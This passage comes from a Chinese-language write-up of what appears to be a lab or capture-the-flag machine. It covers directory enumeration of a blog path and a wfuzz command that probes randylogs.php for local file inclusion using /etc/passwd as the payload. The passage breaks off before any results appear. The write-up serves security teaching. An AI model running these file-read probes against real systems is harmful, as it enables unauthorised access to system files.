         ![image.png](image%2085.png)
        
        ```python
        Welcome to my Blog!
        
        This website is in development. Will be updated in the next couple Months! - randy
        ```
        
        再扫描`blog-post` ，发现两个目录
        
        ```python
        /archives             (Status: 301) [Size: 325] [--> http://192.168.56.4/blog-post/archives/]
        /uploads              (Status: 301) [Size: 324] [--> http://192.168.56.4/blog-post/uploads/]
        ```
        
        `archives`存在`randylogs.php`
        
        `uploads` 回到跟`index`一样
        
3. 发现`randylogs.php` 根据提示关于日志的，应该会有`LFI` ，使用`wfuzz`测试一下
    
    ```python
    wfuzz -c -w /usr/share/wordlists/wfuzz/general/common.txt --hh 0  http://192.168.56.4/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://192.168.56.4/blog-post/archives/randylogs.php?FUZZ=/etc/passwd
    Total requests: 951
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                                                                          
    =====================================================================
    